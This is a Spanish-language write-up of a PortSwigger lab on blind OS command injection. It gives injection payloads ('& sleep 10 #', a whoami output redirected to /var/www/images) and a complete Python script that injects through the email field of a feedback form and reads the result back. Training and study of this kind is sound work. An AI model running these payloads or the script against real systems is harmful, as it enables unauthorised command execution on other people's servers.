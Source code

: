 ```yaml
---
title: "03 Blind OS command injection with output redirection"
collection: publications
category: portswigger
permalink: publications/Command Injection/03_Blind OS command injection with output redirection
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección de comandos de SO ciego en la función de retroalimentación. La aplicación ejecuta un comando shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puede utilizar la redirección de salida para capturar la salida del comando. Hay una carpeta con permisos de escritura en /var/www/images/. La aplicación sirve las imágenes para el catálogo de productos desde esta ubicación. Puede redirigir la salida del comando inyectado a un archivo de esta carpeta y, a continuación, utilizar la URL de carga de imágenes para recuperar el contenido del archivo.'
date: 2024-12-08
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind OS command injection with output redirection'
---
```


![logo]({{site.url}}/images/Command Injection/command-lab-3/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Command Injection/command-lab-3/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, ejecutamos el comando whoami y recuperamos la salida.

## Analisis

Probamos la entrade del formulario y la capturamos con el Burpsuite

![Conf1]({{site.url}}/images/Command Injection/command-lab-3/conf1.png)

Probamos con cada campo a ver cual es vulnerable, probamos el comando `& sleep 10 #` si se demora 10 segundos es vulnerable.

![Conf2]({{site.url}}/images/Command Injection/command-lab-3/conf2.png)

Como por este medio no vamos a obtener una respuesta, nos toca redireccionar la salida de la respuesta en un archivo. Como vemos tenemos una carpeta donde se almacenan las imagenes `/image?filename=5.jpg` 

![Conf3]({{site.url}}/images/Command Injection/command-lab-3/conf3.png)

Vamos a redireccionar la salida de la siguiente forma a la carpeta `/var/www/images`, y no olvidar hacer el `url encode`

```python
& whoami > /var/www/images/salida.txt #
```

![Conf4]({{site.url}}/images/Command Injection/command-lab-3/conf4.png)

Vemos la salida del texto en:

![Conf5]({{site.url}}/images/Command Injection/command-lab-3/conf5.png)

## Aprobado

![Aprobado]({{site.url}}/images/Command Injection/command-lab-3/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s,url):
    feedback_path = '/feedback'
    r = s.get(url + feedback_path, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input")['value']
    return csrf

def exploit_command_injection(s, url):
    submit_feedback_path = '/feedback/submit'
    command_injection = 'test@test.ca & whoami > /var/www/images/output2.txt #'
    csrf_token = get_csrf_token(s, url)
    data = {'csrf': csrf_token, 'name': 'test', 'email': command_injection, 'subject': 'test', 'message': 'test'}
    res = s.post(url + submit_feedback_path, data=data, verify=False, proxies=proxies)
    print("(+) Verifying if command injection exploit worked...")

    # verify command injection
    file_path = '/image?filename=output2.txt'
    res2 = s.get(url + file_path, verify=False, proxies=proxies)
    if (res2.status_code == 200):
        print("(+) Command injection successful!")
        print("(+) The following is the content of the command: " + res2.text)
    else:
        print("(-) Command injection was not successful.")

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting blind command injection in email field...")

    s = requests.Session()
    exploit_command_injection(s, url)

if __name__ == "__main__":
    main()
```